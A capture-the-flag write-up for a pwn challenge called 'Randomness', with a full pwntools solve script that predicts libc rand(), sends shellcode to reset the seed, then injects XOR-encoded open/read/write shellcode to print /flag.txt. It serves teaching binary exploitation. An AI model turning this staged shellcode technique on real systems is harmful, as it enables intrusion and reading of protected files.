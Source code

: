 # Randomness writeup

## Description

Randomness prevents me from writing the shellcode.

`$ nc something.challenge.cr3c.tf 1337`

flag is at `/flag.txt`

## Solve
The idea is to change the srand seed to 0 then we can write the orw shellcode.

Solve script:
```python
from pwn import *   
from pwn import u64
import math
import ctypes

e = context.binary = ELF('./randomness')
libc = ctypes.CDLL("./libc.so.6")
libc.srand(1)

p = process(e.path)

def randnum():
    num = 0
    for _ in range(8):
        num = (num << 8) | (libc.rand() & 0xff)
    return num

def encrypt_payload(payload, length):
    res = []
    for i in range(length):
        key = (randnum() << (8 * ((7 - i) % 8))) & 0xffffffffffffffff
        num = u64(payload[i*8:(i+1)*8])
        res.append(num ^ key)
    return res

p.recvuntil(b"Offset: ")
offset = int(p.recvline().strip(), 16)
log.info(f"Offset: {hex(offset)}")

# Stage 1: change srand seed to 0
sc1 = f"""
    xor edi, edi
    call ${-(offset+8+2-139)}
"""
payload1 = asm(sc1)
payload1 = payload1.ljust(0x8, b"\x90")
p.sendlineafter(b"number: ", b"1")
p.sendlineafter(b"> ", str(u64(payload1)).encode())

# Stage 2: write orw shellcode
sc2 = shellcraft.linux.openat(-100,"/flag.txt")
sc2 += shellcraft.linux.read("rax", "rsp", 0x30)
sc2 += shellcraft.linux.write(1, "rsp", 0x30)
payload2 = asm(sc2)
length = math.ceil(len(payload2) / 8)
payload2 = payload2.ljust(length * 8, b"\x90")
payload2 = encrypt_payload(payload2, length)

p.sendlineafter(b"number: ", str(length).encode())
for i in payload2:
    p.sendlineafter(b"> ", str(i).encode())

p.interactive()
```



